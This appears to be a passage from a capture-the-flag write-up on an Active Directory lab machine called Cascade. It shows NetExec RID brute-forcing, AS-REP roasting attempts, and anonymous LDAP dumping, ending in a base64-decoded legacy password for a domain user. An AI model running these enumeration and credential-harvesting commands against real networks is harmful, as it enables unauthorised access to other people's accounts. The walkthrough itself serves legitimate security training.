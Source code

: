 Although we are not granted access, we find out the OS, build and the hostname of the machine. Let’s attempt rid-brute:

```bash
nxc smb 10.10.10.182   -u '' -p '' --rid-brute 6000
```

We got some results. Let’s save that to a file users.txt and filter for only domain users:

```bash
grep 'SidTypeUser' users.txt | grep -oP '(?<=CASCADE\\)[^ ]+' | grep -v '\$' | sort -u > valid_users.txt
```

Now let’s look for ASREProastable users. We first have to add the FQDN of the machine to our /etc/hosts.

```bash
nxc ldap CASC-DC1.cascade.local -u valid_users.txt -p '' --asreproast asreproast.out
```

We did not get any valid users.

```bash
nxc ldap CASC-DC1.cascade.local -u '' -p '' -M user-desc 

result:
User: CascGuest description: Built-in account for guest access to the computer/domain
```

However upon using the CascGuest credential, we get told that the user’s disabled. We need to find another way. Let’s enumerate LDAP objects:

```bash
ldapsearch -x -LLL -H ldap://10.10.10.182 -D 'cn=USER,ou=users,dc=cascade,dc=local' -b "dc=cascade,dc=local" > ldap_ouptput.txt

```

Let’s then search for common strings like pwd or secret:

```bash
cat ldap_ouptput.txt | grep pwd -i

result:
cascadeLegacyPwd: clk0bjVldmE=
```

Let’s see who this password belongs to:

```bash
cat ldap_ouptput.txt | grep -C20 clk0bjVldmE= 

result:
sAMAccountName: r.thompson

```

The encoding seems like base64, let’s decode it:

```bash
echo 'clk0bjVldmE=' | base64 -d                                               
rY4n5eva
```
